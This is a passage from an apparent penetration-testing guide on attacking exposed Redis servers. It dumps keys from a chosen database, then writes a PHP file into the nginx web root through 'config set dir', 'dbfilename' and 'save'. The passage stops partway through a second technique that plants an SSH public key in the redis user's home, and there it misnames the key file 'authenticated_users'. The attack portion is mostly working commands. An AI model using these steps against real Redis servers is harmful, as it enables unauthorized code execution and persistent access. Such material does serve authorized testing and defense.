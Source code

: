 In that example the database 0 and 1 are being used. Database 0 contains 4 keys and database 1 contains 1. By default Redis will use database 0. In order to dump for example database 1 you need to do:

```bash
SELECT 1
[ ... Indicate the database ... ]
KEYS * 
[ ... Get Keys ... ]
GET <KEY>
[ ... Get Key ... ]
```

Dump the database with npm [redis-dump](https://www.npmjs.com/package/redis-dump) or python [redis-utils](https://pypi.org/project/redis-utils/)

## Common Redis Vulnerabilities

### Webshell

From: [http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html](http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html)

You must know the path of the Web site folder:

```bash
root@Urahara:~ redis-cli -h 10.10.x.x
10.10.x.x:6379> config set dir /usr/share/nginx/html
OK
10.10.x.x:6379> config set dbfilename redis.php
OK
10.10.x.x:6379> set test "<?php phpinfo(); ?>"
OK
10.10.x.x:6379> save
OK
```

If the webshell access exception, you can empty the database after backup and try again, remember to restore the database.

### SSH

In the output of config get * you could find the home of the redis user (usually `/var/lib/redis` or `/home/redis/.ssh`), and knowing this you know where you can write the `authenticated_users` file to access via ssh with the user redis. If you know the home of other valid user where you have writable permissions you can also abuse it:

Generate a ssh public-private key pair on your pc:

```bash
ssh-keygen -t rsa
```

Write the public key to a file :

```bash
(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
```
